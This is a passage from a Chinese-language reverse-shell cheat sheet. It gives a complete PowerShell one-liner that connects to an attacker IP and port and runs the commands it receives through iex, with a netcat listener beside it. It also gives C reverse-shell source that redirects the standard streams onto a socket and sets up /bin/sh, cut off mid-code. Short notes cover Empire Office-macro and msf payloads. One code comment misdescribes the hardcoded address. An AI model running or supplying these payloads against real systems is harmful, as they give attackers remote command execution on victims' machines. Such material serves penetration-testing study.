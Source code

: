 #### 3）自定义powershell函数反弹shell

利用powershell创建一个Net.Sockets.TCPClient对象，通过Socket反弹tcp shell。

```
# 攻击者(192.168.159.134) 开启监听 
nc -lvp 6666

# 目标机执行 
powershell -nop -c "$client = New-Object Net.Sockets.TCPClient('192.168.159.134',6666);$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### 4）Empire 结合office反弹shell

Empire(https://github.com/EmpireProject/Empire)基于powershell的后渗透攻击框架，可利用office宏、OLE对象插入批处理文件、HTML应用程序(HTAs)等进行反弹shell。

- 利用office宏反弹shell 
- 利用office OLE对象插入bat文件反弹shell



### 10. regsvr32反弹shell

## 0x5：msf生成payload反弹shell

### 1. 生成脚本解释型代码并执行

本质上就是在目标机器执行了一段Python代码，和上一章节的python反弹shell没有本质区别。

### 2. 生成编译型二进制文件并执行

本质上就是在目标机器执行了一个二进制程序。

### 3. 内存shellcode执行

通过shellcode直接调用glibc或者syscall完成反弹shell。 

#### 1）C代码

```
#include<sys/socket.h>   //构造socket所需的库
#include<netinet/in.h>  //定义sockaddr结构
int main()
{
  char *shell[2];       //用于execv调用
  int soc,remote;    //文件描述符句柄
  struct sockaddr_in serv_addr; //保存IP/端口值的结构
 
  serv_addr.sin_addr.s_addr=0x6400A8C0;  //将socket的地址设置为所有本地地址
  serv_addr.sin_port=0xBBBB;  //设置socket的端口48059
  serv_addr.sin_family=2;   //设置协议族：IP
  soc=socket(2,1,0);
  remote=connect(soc,(struct sockaddr *)&serv_addr,0x10);
 
  dup2(soc,0);   //将stdin连接client
  dup2(soc,1);   //将stdout连接client
  dup2(soc,2);   //将strderr连接到client
  shell[0]="/bin/sh";   //execve的第一个参数
  shell[1]=0;           //数组的第二个元素为NULL,表示数组结束
```